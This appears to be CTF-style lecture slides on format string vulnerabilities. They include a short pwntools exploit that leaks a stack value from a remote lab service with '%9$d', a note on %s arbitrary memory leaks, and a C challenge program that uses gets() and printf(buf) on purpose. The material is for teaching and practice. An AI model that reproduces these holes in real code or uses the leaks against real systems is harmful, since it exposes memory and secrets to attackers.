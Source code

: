 --

## Answer

```python
from pwn import *

# io=process('./local.out')
io=remote('vpn.duckll.tw',8701)
io.sendline('%9$d')
ans=io.recvline()[:-1]
io.sendline(ans)
io.interactive()
```

---

# Leak

## Any Memory

If the buffer on stack

```c
addr % offset $s
```

global var

--

# Demo

[global](https://drive.google.com/open?id=0B5w3KuqR3zoBdVUzZjd1eE5mYjQ)

```shell
nc vpn.duckll.tw 8702
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include "flag.h"
int x;
int main(int argc, char *argv[])
{
    srand(time(NULL));
    x=rand();
    char buf[100];
    int ans;
    while(1){
        gets(buf);
        ans=atoi(buf);
        if(ans==x){
            puts(flag);
            exit(0);
        }
        else{
            printf(buf);
            puts("");
            fflush(stdout);
        }
    }
    return 0;
```